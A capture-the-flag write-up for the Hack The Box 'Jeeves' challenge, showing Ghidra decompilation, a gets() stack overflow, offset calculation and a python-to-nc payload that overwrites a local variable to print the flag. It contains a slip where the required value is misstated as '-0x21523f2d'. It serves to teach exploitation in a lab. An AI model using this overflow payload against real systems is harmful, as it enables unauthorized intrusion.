 # Jeeves
## Difficulty: Easy 

When start the challenge with a binary file.

I'll use Ghidra to understand what the program does.

After letting Ghidra disassemble it, we can start examining the program from the main function.

## Reverse engineering the binary:

```cpp
undefined8 main(void)
{
  char local_48 [44];
  int local_1c;
  void *local_18;
  int local_c;
  
  local_c = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(local_48);
  printf("Hello %s, hope you have a good day!\n",local_48);
  if (local_c == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```

We can see that the flag will be revealed only if the variable "local_c" has the value of '-0x21523f2d'. Even though there is no direct way to change the value of "local_c", the use of function "gets()" represents a buffer overflow vulnerability. We can overwrite the value of "local_c".

I'll use python to achieve this.

### Determining the length of the payload:

```assembly
                undefined main()
undefined         AL:1           <RETURN>
undefined4        Stack[-0xc]:4  local_c                                 XREF[2]:     001011f5(W), 
                                                                                      00101236(R)  
undefined8        Stack[-0x18]:8 local_18                                XREF[3]:     00101249(W), 
                                                                                      00101266(R), 
                                                                                      00101281(R)  
undefined4        Stack[-0x1c]:4 local_1c                                XREF[3]:     00101263(W), 
                                                                                      0010126a(R), 
                                                                                      00101299(R)  
undefined1        Stack[-0x48]:1 local_48                                XREF[2]:     0010120d(*), 
                                                                                      0010121e(*)  
```

The length of the payload is the difference between the stack address of "local_48" and "local_c" plus the length of the new value for "local_c".

```python3
print((0x48-0xc)) 

60
```

We'll also need the new value for "local_c", 0x1337bab3 written in reverse (because of little endian). 

```
0xb3 0xba 0x37 0x13
```

We can now write the payload.
```bash
python3 -c "print('A'*(0x48-0xc))"

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

python3 -c "import sys;sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba\x37\x13\x0a')"|nc 94.237.54.42 59492

Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3l....
```

#### Note: "0xa" represents the "enter" value. It's necessary for interacting with the server!

### We got the flag!
